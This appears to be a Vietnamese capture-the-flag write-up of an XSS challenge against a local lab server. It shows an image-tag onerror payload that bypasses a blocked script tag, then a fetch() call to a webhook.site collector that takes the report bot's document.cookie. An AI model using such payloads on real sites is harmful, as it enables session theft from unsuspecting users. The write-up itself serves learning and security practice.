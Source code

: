 - Phần đầu của thử thách là XSS nên em đã thử truyền vào một lệnh alert thông qua thẻ <script> nhưng</br></br>![image](https://user-images.githubusercontent.com/99264349/213097372-e4471a0a-8454-4545-a377-b001d0787208.png)</br></br>
- Thử tiếp với các thẻ có khả năng thì em tìm được thẻ `<image src =hihi onerror=alert('Hihihi!')>`</br></br>![image](https://user-images.githubusercontent.com/99264349/213102774-48d5bcf3-cb4e-4eb5-acf1-405423f37ec5.png)
</br></br>
- Tiếp theo bấm vào gửi report của bạn tại đây em thấy form report:</br>![image](https://user-images.githubusercontent.com/99264349/213104077-41c2816a-81e1-45d7-8b63-a48e7726ae60.png)
- Em tạo một server trên https://webhook.site và gửi request với thẻ `<image>` vừa tìm được qua fetch API, payload:</br> ``http://127.0.0.1:13337/?message=<image src=hihi onerror=fetch(`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd`)>``</br></br>
- Request thành công: ![image](https://user-images.githubusercontent.com/99264349/213104767-b4ce454c-8ea7-4a1d-b41c-f7c348734db2.png)</br></br>
- Bây giờ thử lấy cookie của bot xem, payload:</br> ``http://127.0.0.1:13337/?message=<image src=hihi onerror=fetch(`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd?a=${document.cookie}`)>``</br></br>
- Vậy là tìm được rùi :>> ![image](https://user-images.githubusercontent.com/99264349/213105763-e87f92f7-2f34-4baf-a7fa-43f86dd5a405.png)
